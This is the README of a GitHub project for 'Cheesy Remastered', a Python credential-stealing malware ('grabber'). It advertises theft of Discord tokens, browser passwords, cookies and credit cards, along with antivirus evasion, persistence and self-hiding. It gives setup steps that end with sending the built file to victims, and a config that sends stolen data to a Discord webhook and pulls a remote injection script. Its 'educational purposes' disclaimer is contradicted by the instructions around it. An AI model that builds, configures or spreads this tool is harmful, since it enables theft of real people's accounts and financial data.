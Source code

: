 <h1 align="center">
  Cheesy Remastered
</h1>

<p align="center"> 
  <kbd>
<img src="https://cdn.kkgmedia.com/pop-cat.gif">
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/last-commit/bananaman2020/cheesy?style=flat-square">
</p>

<h2 align="center">
  Cheesy was made with

K78 ❌ tesco ✅

</h2>

**NOTE:** \
Cheesy was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.


---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/ys8WBY8VEQ)
- [🎉・Setting up Cheesy](#setup)
- [⚙・Config](#config)
- [🐢・Why is it slower?](#slow)
- [🔎・Why choose Cheesy?](#why_cheese)
- [🌟・Todo/Enhancements](#enhancements)
- [📝・Changelog](#changelog)

## <a id="features"></a>🔰 〢 Features

```
> Anti-vm/Anti-debug
> Improved upon Rdimo's project and added Obfuscation using the Nuitka Project
> Add to startup
> Hides itself
> Supports github.com/Rdimo/Discord-Webhook-Protector so webhook can't be deleted or spammed
> Options are configurable
> Pretty Fast Even if it Was Made With Python
> Windows Product Key & Build Info
> IP & Geolocation. (Country, City, Google Maps Location)
> A screenshot of all their monitors
> All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)
> Their Passwords & Credit Cards for Discord (updates when they change it)
> All Passwords, Cookies and History from Google
> + More!
```

---

## <a id="setup"></a> 📁 〢 Setting up Cheesy

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [main.py](https://github.com/bananaman2020/cheesy/blob/master/main.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. Double Click `setup.bat` and allow it to finish.
5. A Window will open prompting for a name. Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you want to change the config, open up [main.py](https://github.com/bananaman2020/cheesy/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓ or use the api from https://github.com/Rdimo/Discord-Webhook-Protector
    # Recommend using https://github.com/Rdimo/Discord-Webhook-Protector so your webhook can't be spammed or deleted
    'webhook': "WEBHOOK_HERE",
    # ONLY HAVE THE BASE32 ENCODED KEY HERE IF YOU'RE USING https://github.com/Rdimo/Discord-Webhook-Protector
    'webhook_protector_key': "KEY_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js",
    # if True, it will ping @everyone when someone ran Hazard v2
    'ping_on_run': False,
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
    # this list of programs will be killed if hazard detects that any of these are running, you can add more if you want
    'blackListedPrograms':
    [
      ...
    ]

}
```

---
## <a id="slow"></a>🐢 〢 Why is it slower to compile now?

well as the new compiler is "Nuitka" it pretty much works by translating python into C++ which is a lengthy process though during my testing on a i7-10700k compiling takes around 5-10minutes

you might think it being slower is a bad thing but time wise it is but in terms of security it prevents it being detected by AV

## <a id="why_cheese"></a>🔎 〢 Why choose Cheesy?

idk i did this so like piss off egirls and shit

Here are some pros and cons why/why not use Cheesy instead of other ones

### ✔ Pros

⁃ Extremely well maintained, making it a safe choice \
⁃ Partly undetected just because it gets updates often \
⁃ Easy to use and setup \
⁃ Completely free and open source \
⁃ Loads of wide spread features not only focused on discord \
⁃ Cleans itself up, deleting all traces of itself which suprisingly most others don't \
⁃ Supports a webhook protector \
⁃ Even thought it's made in python it's very fast thanks to async and threading \
⁃ Clean embed & isn't spammy like others making it less likely to get ratelimited \
⁃ Takes feedback and listens to what people want to be added/changed/removed

### ❌ Cons

⁃ Made in Python making it lose to other grabbers in terms of speed \
⁃ Python is an interpreted language, it needs to pack the engine & all dependencies making the file size very big \
⁃ Only supports windows 10/11 \
⁃ Can be pretty easily decompiled (still harder than Mercurial atleast)

In the end it's just up to **you** to choose what grabber suits you and your needs the best.

---

## <a id="enhancements"></a>🌟 〢 todo/enhancements

~~overlined~~ = feature got added

- Grab Webcam (screenshot?, video?) 
- Fake Error (custom message, type, etc...)
- File dropper (direct payload link, options: hide it? add to startup? drop location?)
- Self spread 
- Grab Wifi passwords 
- Better Anti-vm/Anti-debug (check screen size?, more registery checks?, make the lists outbound?)
- Exe builder (clean gui, toggable options, compress exe (file size <= 8mb), etc...)
- ~~Grab Chrome history~~
- ~~Grab Minecraft accessToken~~
- ~~Grab hwid (for manual blacklisting)~~
- ~~Grab more network info (ip, geolocation, etc...) and put in seperate txt file~~
- ~~General info (OS, CPU, GPU, RAM, etc...) and put in seperate txt file~~

Not adding/on hold:
- .doc/.pdf file grabbing 
- Metamask Priv Key and seed 

---

## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.0.2 : 01-08-2022
+ updated exe builder to play nicely with nuitka
- im losing my sanity

v1.0.1 : 01-08-2022
+ nvm fuck pyarmor
+ i love nuitka (new obfuscator)
- pyarmor got fucked in the ass haha L not paying for ur shit

v1.0.0 : 31-07-2022
+ Lost the old source code so rebuilt based off Hazard
+ Will include pyarmor to obfuscate code
```


<br>

<p align="center">
🌟 <b>Enjoyed Cheesy?</b> Consider dropping a star :)
<br>
Upgraded by bananaman2020 based off Rdimo
<br>
<a href=#top>Back to Top</a></p>
